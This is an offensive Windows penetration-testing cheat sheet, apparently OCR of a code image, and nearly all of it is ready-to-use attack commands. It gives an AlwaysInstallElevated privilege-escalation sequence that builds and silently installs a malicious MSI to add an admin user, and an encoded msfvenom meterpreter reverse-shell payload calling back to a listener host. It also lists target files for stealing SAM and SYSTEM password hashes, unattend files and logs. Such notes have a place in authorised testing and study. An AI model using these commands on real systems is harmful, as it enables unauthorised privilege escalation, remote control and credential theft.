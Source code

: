 ```bat
    exploit/windows/local/always_install_elevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o exploit.msi
msiexec /quiet /qn /i C:\Users\User\Downloads\exploit.msi
 
DLL Injection
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o target.exe
 





WIN filesystem read targets
 
tier 1
%SYSTEMDRIVE%\boot.ini
    near ubiquitous, confirmation that a read is happening
%WINDIR%\win.ini
    second test file if boot.ini cannot be found/returned
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
    stores users' passwords in a hashed format (in LM hash and NTLM hash). The SAM file in \repair is locked, but can be retired using forensic or Volume Shadow copy methods
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
    key to read SAM hashes in plaintext without cracking
%WINDIR%\repair\security
%SYSTEMDRIVE%\autoexec.bat
 
TIER 1, LOCATION NOT SET BY DEFAULT
unattend.txt
unattend.xml
sysprep.inf
    --(ALL)Used in the automated deployment of windows images and can contain user accounts. No known default location.
 
tier 2
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\software
%WINDIR%\iis6.log
    (or 5 or 7, given version)
%WINDIR%\system32\logfiles\httperr\httperr1.log
    --iis6 error log
%SystemDrive%\inetpub\logs\LogFiles
    --IIS 7’s logs location
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts



references
http://www.fuzzysecurity.com/tutorials/16.html
```